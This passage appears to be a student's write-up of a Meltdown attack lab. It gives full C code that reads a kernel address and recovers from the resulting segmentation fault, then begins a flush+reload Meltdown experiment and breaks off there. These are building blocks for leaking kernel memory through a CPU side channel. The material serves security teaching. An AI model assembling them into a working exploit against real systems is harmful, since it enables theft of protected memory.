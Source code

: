 ```c=
  return 0;
}
```
![](https://i.imgur.com/lCP226V.png)
#### task5 Handle Error/Exceptions in C
```c=
// ExceptionHandling.c
#include <stdio.h>
#include <setjmp.h>
#include <signal.h>

static sigjmp_buf jbuf;

static void catch_segv(int a)
{
  // Roll back to the checkpoint set by sigsetjmp().
  siglongjmp(jbuf, 1);                         
}

int main()
{ 
  // The address of our secret data
  unsigned long kernel_data_addr = 0xfb61b000;

  // Register a signal handler
  signal(SIGSEGV, catch_segv);                     

  if (sigsetjmp(jbuf, 1) == 0) {                
     // A SIGSEGV signal will be raised. 
     char kernel_data = *(char*)kernel_data_addr; 

     // The following statement will not be executed.
     printf("Kernel data at address %lu is: %c\n", 
                    kernel_data_addr, kernel_data);
  }
  else {
     printf("Memory access violation!\n");
  }

  printf("Program continues to execute.\n");
  return 0;
}
```
![](https://i.imgur.com/uBAV4ls.png)
#### task6 Out of Order Execution by CPU
![](https://i.imgur.com/unjEdj9.png)
```c=
// MeltdownExperiment.c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
```